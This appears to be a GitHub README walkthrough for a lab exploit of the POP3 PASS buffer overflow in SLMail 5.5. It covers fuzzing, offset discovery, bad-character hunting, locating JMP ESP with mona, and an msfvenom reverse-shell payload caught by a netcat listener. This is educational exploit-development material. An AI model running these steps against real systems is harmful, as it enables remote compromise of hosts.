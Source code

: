 # Remote-buffer-overflow

Windows exploitation using Remote buffer overflow vulnerability of Seatle Lab mail 5.5 
=====================================================================================

Remote buffer overflow on POP3 'PASS'of Seatle Lab mail 5.5
Windows x86 vulnerability (https://www.exploit-db.com/exploits/638)

Tools/ configuration used
-------------------------
Windows 7 32 bit
Kali linux 2020
VMware
Seatle Lab mail 5.5 (vulnerable software)(https://slmail.software.informer.com/5.5/)
Immunity debugger (python)  	(https://www.immunityinc.com/products/debugger/index.html)
mona.py				(https://github.com/corelan/mona)


------------------------------------------------
On windows 7:

Install Immuinity debugger(with python)
Copy mona.py to pyCommands folder located at Immunity debugger installation directory 
Install Seatle Lab mail 5.5 with default configuration

To ignore unwanted interuption:
	Disable firewall protection
	Stop automatic update
	Disconnect internet (set Host-only network connection)

Note Windows 7 ip=> (eg. 192.168.220.132)
port => 110

On Linux PC:

Six python script (intermediate) files used to create final exploitation python file
a0.py		to identify buffer overflow filled with 'A's
a1.py		to fill with pattern of characters to identify EIP location and buffer offset size
a2.py		to ensure to control EIP with 'B's
bad1.py		to Identify bad characters(01) with all possible values (to ignore in shellcode) 
bad2.py		to Identify bad characters(02) with all possible values (to ignore in shellcode) 
bad3.py		to Identify bad characters(03) with all possible values (to ignore in shellcode) 
(bad... if necessary)

xploit.py	Final exploitation script

--------------------------------------------------
On windows PC

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

-------------------------------------------------
Create an array of buffer with 'A's

==> run a0.py with arguments (Target IP and PORT)
(Eg. python a0.py 192.168.220.132 110)

crashed @ 2900

EIP overwritten with AAAA (41414141) 	(observe on Immunity Debugger)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
Created unique pattern with a1.py to identify the location of EIP

>>>locate pattern_create
copy & paste ruby script with length of 2700
(/usr/share/metasploit-framsework/tools/exploit/pattern_create.rb -l 2700)

==> run a1.py with arguments (Target IP and PORT)

EIP overwritten with value		(observe on Immunity Debugger)
locate and copy EIP value on DBG (eg. 39694438)

>>>locate pattern_offset
copy & paste ruby script with EIP value
(/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438)

Note the offset exact match value (eg. 2606)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
 
Create a buffer pattern to ensure the EIP control
( 2606*A + 4*B + 90*C)
"A"s     EIP      Payload(shellcode)

==> run a2.py  with arguments (Target IP and PORT)

EIP overwritten with BBBB (42424242) 	(observe on Immunity Debugger)
Note that we can control the EIP

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

----------------------------------------------------

Identify bad characters (01)
by sending all possible characters as payload part (skip \x00 -->common bad character)

==> run bad1.py with arguments (Target IP and PORT)

Identify firts missed bad character to skip in shellcode(eg. \x0a ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (02)
by sending all possible characters except identified character (\x00 & \x0a) as payload part

==> run bad2.py with arguments (Target IP and PORT)

Identify next missed bad character to skip in shellcode(eg. \x0d ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (03)
by sending all possible characters ecxept identified characters (\x00,\x0a & \x0d ) as payload part

==> run bad3.py with arguments (Target IP and PORT)

Identify next missed bad character to skip in shellcode(eg. no any character) 

start Seatle Lab mail 
(run exploit.py without Immunity DBG)

------------------------------------------------------

to create final exploitation script

get address of jmp ESP

>>>locate nasm_shell
copy & paste ruby script
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	nasm> jmp esp
	note value to identify the address using mona script (eg. FFE4)

On immunity debugger run mona scripts
	
	!mona modules
		note the slmfc.ll file - false value with Rebase, safeSEH, ALSR & NXcompat

	!mona find -s "\xff\xe4" -m slmfc.dll (FFE4 copied from nasm shell)
		copy the address of one of the result
 
 ..........................

create shellcode using mfsvenom 	 

msfvenom -p windows/shell_reverse_tcp LHOST=<Target_ip_address> LPORT=<port> -f py -b '<bad Characters>' -e x86/shikata_ga_nai
(eg.
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.220.130 LPORT=443 -f py -b '\x00\x0a\x0d\' -e x86/shikata_ga_nai
)

create final overflow pattern 
	"A"s(offset size) + jmpESP (in little endian format) + nop sleds(\x90) + payload(shellcode)

EXPLOITAION:

open another terminal for netcat listener
==> nc -nlvp 443 
    (same port used in shellcode creation)

==> run exploit.py with arguments (Target IP and PORT)

DONE! GOT --> system reverse shell of target machine

References:
https://www.peerlyst.com/posts/hands-on-windows-exploit-development-stack-based-buffer-overflow-bof-chiheb-chebbi?trk=search_page_search_result
https://www.offensive-security.com/metasploit-unleashed/msfvenom/
http://sh3llc0d3r.com/exploit-development/
https://www.youtube.com/watch?v=OOkU7to0Ty4
https://stackoverflow.com/questions/5286117/incompatible-character-encodings-ascii-8bit-and-utf-8
